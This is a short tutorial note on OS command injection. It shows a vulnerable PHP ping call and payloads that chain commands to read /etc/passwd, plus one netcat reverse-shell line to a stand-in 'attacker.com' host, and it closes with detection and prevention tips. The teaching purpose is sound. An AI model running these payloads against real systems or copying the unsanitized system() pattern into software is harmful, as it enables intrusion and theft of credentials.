 # Command Injection
**Command Injection** occurs when a program **passes unsanitized user input** into a system shell (like Bash or CMD), allowing an attacker to execute arbitrary OS commands.

It's part of **injection attacks**, but instead of SQL, it targets the **operating system**.

### Basic Principle:
A vulnerable application **builds a system command using user input**.
Example (in PHP):
```php
system("ping ". $_GET['ip']);
```
An attacker can input:
```bash
8.8.8.8; cat /etc/passwd
```
Resulting in:
```bash
ping 8.8.8.8; cat /etc/passwd
```


## Behavior vs. Other Injection Types:
|Type|Target|Common Payload|
|---|---|---|
|SQL Injection|Database|`'OR '1'='1`|
|XSS|Browser|<script>alert(1)</script>|
|Command Injection|OS Command Shell|`; ls -la`|

### Common Payloads:
```bash
127.0.0.1; whoami
127.0.0.1 && cat /etc/passwd
127.0.0.1 | nc attacker.com 4444 -e /bin/sh
```

### Detection Methods:
 - Unexpected output in response (extra lines, user info
 - Web app logs showing strange input patterns
 - IDS/IPS decting shell command strings


### Prevention:
 - Never concatenate raw input into shell commands
 - Use parameterized commands or safe APIs
 - Implement **allowlists** for user inputs (e.g., only digits, dots for IPs)
 - Use **sandboxing** or **chroot jails** where possible


